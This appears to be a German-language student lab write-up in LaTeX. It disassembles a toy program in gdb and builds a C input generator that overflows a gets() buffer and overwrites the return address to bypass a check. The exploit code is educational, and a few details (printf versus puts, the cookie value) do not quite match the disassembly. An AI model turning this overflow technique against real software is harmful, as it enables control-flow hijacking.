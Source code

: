 \documentclass[10pt,a4paper]{article}
\begin{document}
Mit gdb schauen wir uns daraufhin das Ergebnis des Compilierens an:
\begin{verbatim}
$ gdb b
GNU gdb (GDB) 7.6.2
Copyright (C)
[...]
Hacking/Blatt5/b...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040058d <+0>:	push   %rbp
   0x000000000040058e <+1>:	mov    %rsp,%rbp
   0x0000000000400591 <+4>:	sub    $0x70,%rsp
   0x0000000000400595 <+8>:	lea    -0x4(%rbp),%rdx
   0x0000000000400599 <+12>:	lea    -0x70(%rbp),%rax
   0x000000000040059d <+16>:	mov    %rax,%rsi
   0x00000000004005a0 <+19>:	mov    $0x400664,%edi
   0x00000000004005a5 <+24>:	mov    $0x0,%eax
   0x00000000004005aa <+29>:	callq  0x400460 <printf@plt>
   0x00000000004005af <+34>:	lea    -0x70(%rbp),%rax
   0x00000000004005b3 <+38>:	mov    %rax,%rdi
   0x00000000004005b6 <+41>:	callq  0x400490 <gets@plt>
   0x00000000004005bb <+46>:	mov    -0x4(%rbp),%eax
   0x00000000004005be <+49>:	cmp    $0xa0d00,%eax
   0x00000000004005c3 <+54>:	jne    0x4005cf <main+66>
   0x00000000004005c5 <+56>:	mov    $0x40067c,%edi
   0x00000000004005ca <+61>:	callq  0x400450 <puts@plt>
   0x00000000004005cf <+66>:	leaveq 
   0x00000000004005d0 <+67>:	retq   
End of assembler dump.
\end{verbatim}

Aus diesen Daten kann man lesen, dass bei Adresse 0x4005be die if-Abfrage umgesetzt wurde. Diese möchten wir mit unserer Eingabe umgehen und direkt zum printf("...") springen. Wir müssen also die Sprungadresse ersetzen durch 0x4005c5. Da diese Adresse nicht zu tippende Zeichen enthält schreiben wir uns ein Eingabe-Programm "`inputGen.c"', welches wir dann zusammen mit dem Programm "`b"' aufrufen:
\begin{verbatim}
./inputGen | ./b
\end{verbatim}

Input Gen compilieren wir mit:
\begin{verbatim}
gcc -o inputGen inputGen.c
\end{verbatim}

\begin{verbatim}
inputGen.c
---------------------------------
#include <stdio.h>

int main() {
   unsigned int i;
   //fill the char buffer
   for(i = 0; i < 108; i++){
      printf("a");
   }
   //print the cookie variable
   printf("dbcg");
   //print some unneeded data as offset to the jump adress
   for(i = 0; i < 8; i++){
      printf("%c", 0);
   }
   //print the correct adress for the jump
   printf("%c%c%c%c", 0x4005c5 & 0xFF, (0x4005c5 & 0xFF00) >> 8,
            (0x4005c5 & 0xFF0000) >> 16, (0x4005c5 & 0xFF000000) >> 24);
   for(i = 0; i < 4; i++){
      printf("%c", 0);
   }

   return 0;
}
\end{verbatim}
\end{document}
